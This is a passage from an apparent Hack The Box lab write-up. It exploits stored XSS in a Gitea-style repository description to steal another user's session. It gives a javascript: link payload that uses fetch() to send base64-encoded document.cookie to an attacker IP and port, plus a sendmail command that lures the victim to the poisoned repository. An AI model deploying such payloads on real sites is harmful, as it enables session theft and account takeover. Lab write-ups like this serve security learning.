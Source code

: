 Here it is stored xss , Now if you guys remember about the mail .. things started matching 

Also note in the mail , rosa mentioned 
```
Be sure to include a clear description of the idea so that I can understand it properly. I will review the whole repository.
```

Here in the exploit , we are gonna insert the payload in the `description` only ! 

Maybe another session stealing but for Jobert this time  ??

lets try by crafting our payload , this is our basic one

```html
<a href=javascript:alert()>XSS test</a>
```

I modified like this ,

```html
<a href="javascript:fetch('http://10.10.14.17:1111/?d='+encodeURIComponent(btoa(document.cookie)));">XSS test</a>
```

Also for sending mail use this ,

```bash
echo -e "Subject: Test Email\n\nHello, check repo http://localhost:3000/axel/l4tmur" | sendmail jobert@cat.htb
```

to confirm its working u can check the file size , it will rapidly change after excuting the command 

![](/assets/images/Pasted%20image%2020250203070144.png)

see , now we started getting requests 

![](/assets/images/Pasted%20image%2020250203065934.png)
